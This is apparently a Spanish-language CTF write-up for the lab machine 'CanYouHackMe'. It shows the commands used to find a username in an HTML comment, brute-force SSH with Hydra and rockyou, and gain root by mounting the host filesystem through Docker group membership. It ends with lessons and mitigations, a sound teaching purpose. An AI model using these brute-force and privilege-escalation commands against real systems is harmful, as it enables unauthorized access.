








## Información General

|Campo|Detalle|
|---|---|
|Plataforma|TheHackersLabs|
|Máquina|CanYouHackMe|
|Dificultad|Fácil|
|Sistema Operativo|Linux (Ubuntu)|
|IP Objetivo|192.168.241.196|
|Servicios Expuestos|SSH (22), HTTP (80)|
|Fecha|18 de octubre de 2026|

---

## Resumen del Ataque

La máquina **CanYouHackMe** es un reto directo de dos flags. El servidor HTTP redirige a un dominio virtual (`canyouhackme.thl`) cuyo código fuente contiene un comentario HTML que filtra un nombre de usuario (`juan`). A partir de ese nombre, un ataque de fuerza bruta contra SSH con Hydra recupera la contraseña (`matrix`). Una vez dentro como `juan`, el usuario pertenece al grupo `docker`, lo que permite ejecutar contenedores con montaje del sistema raíz (`docker run -v /:/mnt --rm -it alpine chroot /mnt /bin/bash`), otorgando acceso directo a **root** sin escalar privilegios tradicionales.

---

## Técnicas Usadas

- Reconocimiento de puertos con Nmap (`-p-` y `-sC -sV`)
- Resolución de nombres virtuales (edición de `/etc/hosts`)
- Enumeración de código fuente HTML
- Extracción de credenciales vía comentarios HTML
- Fuerza bruta contra SSH con Hydra
- Enumeración de pertenencia a grupos del usuario (`id`)
- Abuso de permisos de grupo `docker` para escalada de privilegios
- Montaje de volúmenes en contenedores Docker (`-v /:/mnt`)
- Escape de contenedor via `chroot`

---

## Desarrollo

1. Escaneo de puertos

```
sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn -oN port 192.168.241.196
```



2. Enumeración de versiones de servicio

```
nmap -p 22,80 -sC -sV -oN allport 192.168.241.196
```



El servidor HTTP redirige a un dominio virtual (`canyouhackme.thl`), que no se resuelve automáticamente.

3. Configuración del nombre virtual

```
echo "192.168.241.196 canyouhackme.thl" | sudo tee -a /etc/hosts
```

4. Acceso al servidor web

```
http://canyouhackme.thl/
```


Se presenta una página con el título “Can You Hack Me?”. El contenido visual es mínimo, lo que sugiere que la información relevante está en el código fuente.

**5. Extracción de credenciales vía comentario HTML**

Se inspecciona el código fuente de la página:

```
/* Hola juan, te he dejado un correo importate, cundo puedas, leelo */
```



El comentario filtra directamente el nombre de usuario del sistema: **`juan`**. La mención de un correo importante es un señuelo sin contenido explotable en esta sesión.

6. Fuerza bruta contra SSH

Con el usuario `juan` identificado, se procede a atacar SSH con un diccionario de contraseñas común:

```
hydra -l juan -P /usr/share/wordlists/rockyou.txt ssh://192.168.241.196 -t 30
```



Se recupera la contraseña: **`matrix`**

7. Acceso SSH como juan

```
ssh juan@192.168.241.196
```

Se obtiene la **flag 1/2** inmediatamente al iniciar sesión:



8. Enumeración de permisos del usuario

```
juan@TheHackersLabs-CanYouHackMe:~$ id
```



El usuario `juan` pertenece al grupo `docker`, lo que permite ejecutar comandos Docker sin `sudo`. Este es el vector de escalada de privilegios.

**9. Escalada de privilegios vía Docker**

Se aprovecha la pertenencia al grupo `docker` para montar el sistema raíz en un contenedor y acceder como root:

```
juan@TheHackersLabs-CanYouHackMe:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt /bin/bash
```

El comando realiza las siguientes acciones:

- `docker run`: ejecuta un contenedor nuevo
- `-v /:/mnt`: monta el sistema raíz del host en `/mnt` dentro del contenedor
- `alpine`: imagen base mínima
- `chroot /mnt /bin/bash`: cambia la raíz al punto de montaje y lanza un shell

```
root@c51b9d01b6ab:/# whoami
```



Desde dentro del contenedor se tiene acceso como root.

10. Captura de la flag final

```
root@c51b9d01b6ab:/# cd /root
root@c51b9d01b6ab:~# cat root.txt 
```



## Lecciones Aprendidas

- Los comentarios HTML en el código fuente, aunque parezcan informales o triviales, suelen contener pistas directas hacia nombres de usuario o credenciales; siempre revisar la fuente de páginas aparentemente simples.
- La pertenencia a grupos no-root (como `docker`) puede otorgar capacidades de escalada equivalentes a privilegios administrativos; no confundir “no es root” con “es seguro”.
- El montaje de volúmenes en contenedores Docker permite acceso directo al sistema raíz del host si no se aplica confinamiento adicional (AppArmor, SELinux).
- `chroot` dentro de un contenedor con montaje de sistema raíz es una ruta clásica y directa hacia root.
- Contraseñas comunes (como `matrix`, referencia a _The Matrix_) siguen siendo vulnerables a diccionarios estándar como `rockyou.txt` a pesar de su edad.
- Diccionarios amplios y herramientas como Hydra hacen fuerza bruta contra SSH práctica incluso en entornos modernos si no hay limitaciones de intentos configuradas.

---

## Medidas de Mitigación

- Nunca incluir nombres de usuario reales, contraseñas, pistas de credenciales o información sensible en comentarios HTML, incluso aunque se crean “privados” en el código fuente.
- Restringir permisos de grupo `docker` a usuarios específicos; considerar el uso de `sudo` con restricciones explícitas sobre comandos Docker permitidos.
- Implementar límites de intentos fallidos (rate limiting) y bloqueos temporales en SSH; considerar el uso de claves SSH en lugar de autenticación por contraseña.
- Aplicar políticas de confinamiento a nivel de kernel (AppArmor, SELinux) para restringir lo que los contenedores pueden acceder en el host.
- Evitar permitir montaje de volúmenes con ruta absoluta del host (`-v /:/mnt`) en contenedores no confiables; usar bind mounts restringidos a directorios específicos de aplicación.
- Usar `chroot` como barrera de seguridad solo en contextos donde se aplique confinamiento adicional (no es suficiente por sí solo).

